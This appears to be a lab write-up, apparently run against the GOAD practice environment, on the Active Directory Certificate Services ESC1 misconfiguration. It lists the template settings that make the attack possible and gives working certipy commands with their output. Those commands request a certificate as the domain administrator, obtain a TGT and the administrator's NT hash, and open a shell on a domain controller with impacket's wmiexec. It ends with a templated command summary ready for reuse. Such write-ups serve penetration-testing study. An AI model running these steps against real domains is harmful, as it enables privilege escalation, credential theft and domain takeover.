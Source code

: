 it is possible to specify an alternate user in a certificate request. If a certificate template permits the inclusion of a `subjectAltName` (`SAN`) that differs from the user submitting the certificate signing request (CSR), this functionality can be exploited. Specifically, an attacker can request a certificate on behalf of any user in the domain by including their `subjectAltName` in the request.

The following prerequisites must apply:
- Enrollment Rights: `DOMAIN\Domain Users`.
- Requires Manager Approval: `False`.
- Authorized Signature Required: `0`.
- Client Authentication: `True` or Extended Key Usage `Client Authentication`.
- Enrollee Supplies Subject: `True`

Take note of the Template Name and Certificate Authority:

![[Pasted image 20241005173153.png]]

### Certificate Request

Use the `-upn` to specify the alternative subject. In this case the Administrator:

```bash
garffff@garfffff:~/GOAD/adcs/esc1$ certipy req -u khal.drogo@essos.local -p 'horse' -template ESC1 -ca ESSOS-CA -upn administrator@essos.local -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

### Certificate Authentication

We can retrieve the NTLMv1 hash for the targeted user:

```bash
garffff@garffff:~/GOAD/adcs/esc1$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

### Using the TGT

We can also authenticate to a domain controller using the TGT saved. This requires the DC to be resolved using DNS:

```bash
garffff@garffff:~/GOAD/adcs/esc1$ ls administrator.*
administrator.ccache  administrator.pfx
garffff@garffff:~/GOAD/adcs/esc1$ export KRB5CCNAME=administrator.ccache
garffff@garffff:~/GOAD/adcs/esc1$ wmiexec.py -k -no-pass meereen.essos.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

### Summary

```bash
certipy req -u <user>@<domain> -p '<password>' -template <template> -ca <ca> -upn <target_user>@<domain> -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
```


